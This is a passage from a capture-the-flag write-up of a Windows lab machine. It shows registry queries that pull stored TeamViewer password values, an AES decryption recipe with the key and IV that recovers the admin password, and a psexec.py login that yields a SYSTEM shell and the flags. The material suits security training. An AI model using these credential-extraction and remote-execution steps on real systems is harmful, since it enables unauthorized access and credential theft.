LastUpdateCheck REG_DWORD 0x64c273d8
UsageEnvironmentBackup REG_DWORD 0x1
SecurityPasswordAES REG_BINARY FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
MultiPwdMgmtIDs REG_MULTI_SZ admin
MultiPwdMgmtPWDs REG_MULTI_SZ 357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77
Security_PasswordStrength REG_DWORD 0x3
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\AccessControl
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\DefaultSettings
C:\windows\temp>reg query HKLM\SOFTWARE\TeamViewer\Version7
C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v SecurityPasswordExported
C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v ServerPasswordAES
C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v ProxyPasswordAES
C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v LicenseKeyAES
C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v OptionsPassword
C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v PermanentPassword
C:\windows\temp>REM CYBERCHEF RECIPE
C:\windows\temp>REM AES_Decrypt({'option':'Hex','string':'0602000000a400005253413100040000'},{'option':'Hex','string':'0100010067244F436E6762F25EA8D704'},'CBC','Hex','Raw',{'option':'Hex','string':''})Decode_text('UTF-16LE (1200)')
PS C:\windows\temp> The system was unable to find the specified registry key or value.
From this huge output, we find three things: first, the encrypted HEX password is FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B. Second, we have the AES encryption key, which is 0602000000a400005253413100040000. Finally, we have the IV, which is 0100010067244F436E6762F25EA8D704. We can go to Cyberchef and select AES decrypt recipe. Here is the result:

Showing the admin password is !R3m0te!.
Step 4 - Solving!
Now that we have the admin password, we can use psexec.py, as stated by the machine info, to get the SYSTEM shell. To do so, we simply run:
kaizen@celestial ~ $ psexec.py 'administrator:!R3m0te!@10.129.14.142'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
[*] Requesting shares on 10.129.14.142.....
[*] Found writable share ADMIN$
[*] Uploading file lAgjnpRc.exe
[*] Opening SVCManager on 10.129.14.142.....
[*] Creating service eGkl on 10.129.14.142.....
[*] Starting service eGkl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32> whoami
nt authority\system
And voilà! We have our SYSTEM shell! Now, we retrieve all flags:
C:\Windows\system32> type c:\users\public\user.txt
aa3d4bb0861760843cb76a9d9f92190a
C:\Windows\system32> type c:\users\administrator\desktop\root.txt
a033160985b82a79d7188f9c1974a8fc
Conclusion
In this CTF, we learned a bit more Common Vulnerabilities: one regarding outdated Umbraco CMS; and the other, a CVE that retrieves TeamViewer password hases that can later be used to get the SYSTEM shell. Nothing too fancy, yet super thoughtful!
I hope you liked this write-up and learned something new. As always, don’t forget to do your research!